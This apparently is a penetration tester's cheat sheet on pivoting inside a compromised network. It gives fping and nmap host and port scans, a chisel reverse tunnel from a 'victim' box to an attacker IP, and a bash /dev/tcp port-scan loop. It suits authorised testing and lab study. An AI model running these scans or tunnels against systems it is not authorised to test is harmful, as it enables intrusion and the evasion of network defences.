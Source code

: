 ### [Resources on pivoting]

https://www.offensive-security.com/metasploit-unleashed/pivoting/  

### [fping]

You can use fping to quickly ping hosts within a network.

https://fping.org/

https://fping.org/dist/

```
fping -q -a -g -r 1 <IP>/24
```

### [Portable NMAP Scanner]

You can scan and enumerate ports on a list of ports.

```
./nmap -iL ip_list.txt --min-rate=6000
```

https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap  

### [Port Forwarding using Chisel]

ippsec demonstration

https://www.youtube.com/watch?v=Yp4oxoQIBAM&t=1620&ab_channel=IppSec

Breakdown

https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html

```
Victims Box: ./chisel client <attackersIP>:8011 R:1234:127.0.0.1:1234
Attackers Box: ./chisel server -p 8011 --reverse
```

### port checking (thanks to @TheCyberGeek)

```
for PORT in {0..1000}; do timeout 1 bash -c "</dev/tcp/<IP>/$PORT &>/dev/null" 2>/dev/null && echo "port $PORT is open"; done
```
